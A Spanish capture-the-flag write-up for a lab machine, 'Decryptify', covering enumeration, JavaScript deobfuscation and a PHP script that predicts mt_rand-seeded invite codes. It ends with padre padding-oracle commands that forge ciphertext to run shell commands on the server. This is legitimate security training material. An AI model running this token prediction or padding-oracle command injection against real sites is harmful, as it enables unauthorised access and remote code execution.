



# Decryptify — Writeup

## Resumen

Es una máquina de dificultad media en la que se necesitará usar encriptación y desencriptación y lograr RCE.

## Enumeración

Empiezo haciendo un ping a la máquina para así saber el SO vía el TTL.

```
ping -c 1 <vmip>   
64 bytes from <vmip>: icmp_seq=1 ttl=62 time=29.4 ms
```

Con esto sé que es una máquina Linux.

Sigo con nmap escaneando los puertos.

```
nmap -sVC -p- --min-rate 5000  <vmip>  -oG nmap

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 67:e9:42:f4:10:06:c0:18:94:be:bc:1a:16:ed:83:1d (RSA)
|   256 f2:57:47:0a:c7:d6:c0:79:e8:99:66:be:ad:c4:8b:7c (ECDSA)
|_  256 0d:84:1f:d2:8e:67:89:8f:b1:75:5d:8f:04:71:11:c1 (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login - Decryptify
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Puertos encontrados:

```
SSH/22
Apache/1337
```

Ya que todavía no tengo credenciales, empiezo por el apache.

## Análisis puerto 1337

Empiezo entrando a la web para ver qué tiene y veo que tiene un login básico y que se puede entrar a la API vía contraseña.

Empiezo con gobuster en busca de subdirectorios.

`gobuster dir -u http://<vmip> -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<vmip>:1337
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
css                  (Status: 301) [Size: 321] [--> http://<vmip>:1337/css/]
js                   (Status: 301) [Size: 320] [--> http://<vmip>:1337/js/]
javascript           (Status: 301) [Size: 328] [--> http://<vmip>:1337/javascript/]
logs                 (Status: 301) [Size: 322] [--> http://<vmip>:1337/logs/]
phpmyadmin           (Status: 301) [Size: 328] [--> http://<vmip>:1337/phpmyadmin/]
server-status        (Status: 403) [Size: 281]
Progress: 220557 / 220557 (100.00%)
===============================================================
Finished
===============================================================

```

Después del escaneo de gobuster encuentro un subdirectorio interesante.

`http://<vmip>:1337/logs/` 

Dentro del subdirectorio logs hay un archivo llamado `app.log` y dentro nos encontramos un registro sobre unos usuarios creados.

```
2025-01-23 14:32:56 - User POST to /index.php (Login attempt)
2025-01-23 14:33:01 - User POST to /index.php (Login attempt)
2025-01-23 14:33:05 - User GET /index.php (Login page access)
2025-01-23 14:33:15 - User POST to /index.php (Login attempt)
2025-01-23 14:34:20 - User POST to /index.php (Invite created, code: MTM0ODMzNzEyMg== for alpha@fake.thm)
2025-01-23 14:35:25 - User GET /index.php (Login page access)
2025-01-23 14:36:30 - User POST to /dashboard.php (User alpha@fake.thm deactivated)
2025-01-23 14:37:35 - User GET /login.php (Page not found)
2025-01-23 14:38:40 - User POST to /dashboard.php (New user created: hello@fake.thm)
```

Podemos ver que se ha creado un código de invitación para el usuario `alpha@fake.thm` que posteriormente se desactiva, y que luego se crea el usuario `hello@fake.thm`. 

Con esto todavía no tenemos nada útil así que sigo buscando.

Después de estar buscando un rato encuentro en el código fuente de la página principal que la api se ejecuta como `<script>`.


Al entrar veo que hay código ofuscado así que procedo a desofuscarlo.



El código una vez desofuscado nos da esto.

```
function b(c, d) {
  const e = a();
  return b = function (f, g) {
    f = f - 357;
    let h = e[f];
    return h;
  }, b(c, d);
}
const j = b;
function a() {
  const k = ["16OTYqOr", "861cPVRNJ", "474AnPRwy", "H7gY2tJ9wQzD4rS1", "5228dijopu", "29131EDUYqd", "8756315tjjUKB", "1232020YOKSiQ", "7042671GTNtXE", "1593688UqvBWv", "90209ggCpyY"];
  a = function () {
    return k;
  };
  return a();
}
(function (d, e) {
  const i = b, f = d();
  while (true) {
    try {
      const g = parseInt(i(363)) / 1 + -parseInt(i(367)) / 2 + parseInt(i(359)) / 3 * (parseInt(i(362)) / 4) + parseInt(i(364)) / 5 + parseInt(i(360)) / 6 * (parseInt(i(357)) / 7) + -parseInt(i(358)) / 8 * (parseInt(i(366)) / 9) + parseInt(i(365)) / 10;
      if (g === e) break; else f.push(f.shift());
    } catch (h) {
      f.push(f.shift());
    }
  }
}(a, 934896));
const c = j(361);
```

Lo que hace el código es que con `j(361)` en este caso pide la posición 4 de la lista pero lo disfraza para que no se pueda leer tan fácilmente, y el código lo que hace es usar casi todos los elementos de la lista y, ya que el elemento que empieza por una letra no lo puede convertir en número, se estropea.

Lo que hice fue añadir un `console.log(c);` al final del código para que al final nos enseñe el código correcto. 

Una vez ejecutado nos sale `H7gY2tJ9wQzD4rS1`. 

Empecé usando el código con el usuario `hello@fake.thm` y no funcionó, pero al usarlo en el login de la api funcionó y conseguí entrar.

Una vez dentro sale un endpoint del API y explica cómo se crean los códigos de invitación para los emails de los usuarios.

```
// Token generation example
function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);

    return $seed_value;
}
     $seed_value = calculate_seed_value($email, $constant_value);
     mt_srand($seed_value);
     $random = mt_rand();
     $invite_code = base64_encode($random);
```

Al ver esto se puede ver que a la hora de crear el código de invitación no lo hace de una forma segura, porque se puede sacar sabiendo el email del que se quiere conocer el código y haciendo un poco de fuerza bruta a la constante.

## Explotación

### Predicción del código de invitación (bypass de autenticación)

Ya que tengo ya la dirección de email de `hello@fake.thm`, con php hice un código que automatiza la búsqueda de la constante y calcula el código de la invitación.

```
<?php
function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    return hexdec($email_length + $constant_value + $email_hex);
}

$email1 = "alpha@fake.thm";
$token1 = " MTM0ODMzNzEyMg==";
$known_random = base64_decode($token1);  

for ($c = 0; $c < 100000; $c++) {
    $seed = calculate_seed_value($email1, $c);
    mt_srand($seed);
    $try = mt_rand();
    if ((string)$try === $known_random) {
        echo "Constante encontrada: $c\n";

        
        $email2 = "hello@fake.thm";
        $seed2 = calculate_seed_value($email2, $c);
        mt_srand($seed2);
        $random2 = mt_rand();
        echo "Token para email2: " . base64_encode($random2) . "\n";
        break;
    }
}
```

Y al poner el usuario de `hello@fake.thm` nos acaba dando el token.

```php
php code.php            
Constante encontrada: 99999
Token para email2: NDYxNTg5ODkx
```

Una vez dentro conseguimos la primera flag y nos sale que tenemos 2 usuarios: uno con el que entramos, con rol de usuario, y uno con rol de admin.



Intenté probar el mismo método de la clave con el usuario admin pero no funcionó.

### Detección del Padding Oracle

Al ver el código fuente de la página se ve un form oculto con el parámetro date, que manda información y que cambia cada vez que refresco la página, así que tendrá que ver algo con el comando `date`. 

Empecé a jugar con el parámetro y, al cambiar la longitud y el contenido, salta un error y se borra la fecha de 2026 de abajo.

`http://<vmip>/dashboard.php?date=[Texto a poner]`




Probablemente el date manda la fecha de abajo, en este caso 2026. 

Al ver el código de error de que el padding no es correcto, veo que puede ser vulnerable a un ataque de **Padding Oracle**. Un ataque de **Padding Oracle** se explota a partir de errores como el que encontramos; con esto podemos forjar un texto cifrado arbitrario y modificar el contenido.

### Explotación del Padding Oracle y RCE

Para llevarlo a cabo usé la tool Padre. 

```
./padre-linux-amd64 -u 'http://<vmip>:1337/dashboard.php?date=$' -cookie 'PHPSESSID=ojgp17s833j9076vf18a6rmglq; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' 'hLEg1/fpfI5yHsHwsH3JEdBgntmMRZ581fzFkxpNJnk='
```

Y después de un rato conseguimos el mensaje para poder modificarlo.

`date +%Y\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08`

Después de modificar el texto lo vuelvo a encriptar con padre y lo mando.

```
./padre-linux-amd64 -u 'http://<vmip>:1337/dashboard.php?date=$' -cookie 'PHPSESSID=ojgp17s833j9076vf18a6rmglq; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -enc 'whoami'
```

Al mandarlo me sale que somos el usuario `www-data`


### Lectura de la flag

Ahora, teniendo el RCE, mando el mensaje `cat /home/ubuntu/flag.txt` para ver si puedo leer la flag.

Y al mandarlo conseguimos la última flag, donde antes salía www-data, dando por terminada la máquina.

`THM{REDACTED}`

## Flujo de Ataque

1. **Enumeración:** Sacamos los puertos `SSH/22` y `Apache/1337` vía nmap.
2. **Análisis 1337:** Vía gobuster sacamos el directorio `logs`, consiguiendo así direcciones de correo, y desofuscando código js conseguimos la contraseña para el panel de la API.
3. **Explotación:** Una vez en la API conseguimos el endpoint de cómo se crean los códigos de invitación para los usuarios; al verlo se puede ver que con un email y un poco de fuerza bruta se puede conseguir el código de invitación para el email que queramos, así consiguiendo el acceso a `hello@fake.thm`. Una vez con `hello@fake.thm` encontramos el form oculto con el parámetro date y, al cambiar el contenido, salta un error con el que nos damos cuenta de que es vulnerable al `Padding Oracle Attack`; abusando de él conseguimos RCE y así damos por terminada la máquina.
